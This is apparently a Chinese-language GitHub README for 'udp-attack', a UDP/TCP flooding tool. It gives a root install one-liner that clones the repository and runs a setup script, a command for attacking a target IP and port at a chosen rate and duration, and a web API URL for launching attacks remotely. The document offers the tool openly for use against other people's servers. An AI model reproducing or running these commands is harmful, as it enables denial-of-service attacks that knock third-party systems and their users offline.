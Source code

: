# udp-attack 一个简单的udp攻击程序
# 版本：1.1
# 发布时间：2020/02/07
<p>安装所需：</p>
<li>一台能发包的VPS</li>
<li>Centos 7.x系统</li>
<br>
现在开始安装，，，
<br>
<pre>cd /root && yum install -y git wget curl net-tools && git clone https://github.com/Scholar-m/udp-attack.git && cd udp-attack && mv ./* ../ && cd ../ && perl setup.pl</pre>
<blockquote>如果显示perl没有安装，，请自行到网上找教程，，，</blockquote>
安装过程中如果问你要不要安装某些东西，按y同意
<br>
等待安装好后，，就可以开始攻击力，，
命令格式：<pre>perl /root/ssyn.pl 要攻击的IP 端口 每秒发送数据包(bytes) 持续攻击秒数</pre>
当然你也可以用api攻击，php安装方式网上自己找，api地址是<pre>http://你的服务器地址/api.php?key=[yourvpspassword(root)]&host=[host]&port=[port]&time=[time]&method=[method]</pre>
说一下，method有3种模式，分别是udp，tcp，和stop，，

